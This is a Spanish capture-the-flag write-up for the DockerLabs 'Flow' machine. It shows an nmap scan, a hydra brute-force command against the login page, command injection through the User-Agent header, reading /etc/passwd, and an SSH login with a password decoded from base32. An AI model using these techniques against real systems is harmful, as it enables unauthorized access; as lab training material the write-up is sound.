 Máquina **Flow** de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil

![Flow](/maquina-flow/img/flow.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 24 15:26:25 2024 as: nmap -sSVC -p- --open --min-rate 5000 -n -Pn -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-24 15:26:25 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a4:30:b7:53:8c:cd:b3:5e:a2:7b:84:a0:e2:8b:26:de (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHiHCVEfjf7qeFCWCS4xe8uPPHmHjQucfYiQ9WscYBiCH7voggRMAuMQGe5nOTSRFyFWOG5jXMVoPhwojthclfQ=
|   256 4c:7d:75:cf:08:77:21:76:94:8f:16:22:f3:b4:d1:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMg+N6LzkrrlWQj2YMZaZWsAQYp3LLNw4bzfTYv6YlpN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Login - P\xC3\xA1gina Segura
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 24 15:26:33 2024 -- 1 IP address (1 host up) scanned in 8.56 seconds
```

solo tenemos dos puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 80: Apache https 2.4.58`

Ahora vamos desde el navegador y vemos un panel de login. Luego de revisar un poco, veo que en el codigo fuente se encuentra lo siguiente:

```html
<!-- d1se0  -->
```

al parecer tenemos un usuario, por lo que intento un ataque de fuerza bruta al panel de login:

```css
hydra -l d1se0 -P /opt/rockyou.txt 172.17.0.2 http-post-form '/index.php:username=^USER^&password=^PASS^:¡Ups! Las credenciales no son correctas. Intenta nuevamente.'
```

una vez lo hacemos, obtenemos las credenciales:

![Password](/maquina-flow/img/pass.png)

Estando en "gestionAdminPanel.php", pruebo a capturar la petición con burpsuite, y reemplazar el "User-agent" por un comando, y revisando la respuesta, veo que podemos ejecutar comandos:

![Burp-command](/maquina-flow/img/burp-id.png)

Sabiendo esto, podemos intentar enumerar un poco de ahí mismo. Para esto vamos a primero enumerar usuarios leyendo con `cat` el archivo `/etc/passwd` y veo que tenemos uno:

`flow`

# Intrusión

Ahora ejecutamos el comando `find` para buscar archivos que le pertenezcan a `flow`:

```css
find / -user "flow" 2>/dev/null
```

una vez ejecutado, vemos que existe un archivo llamado "secret" en `/usr/bin/secret` el cual si lo leemos dice lo siguiente:

```css
MQYXGZJQNFZXI2DFMJSXG5CAEQSCC===
```

Luego de pasar el mensaje de `base32` a texto, vemos lo siguiente:

```css
d1se0isthebest@$$!
```

por lo que para entrar debemos ejecutar `ssh flow@172.17.0.2` y poner la contraseña "d1se0isthebest@$$!"

# Escalada de privilegios

## Flow

#### Buffer overflow

https://youtu.be/09WQgOV1FtI



Gracias por leer y ver :)
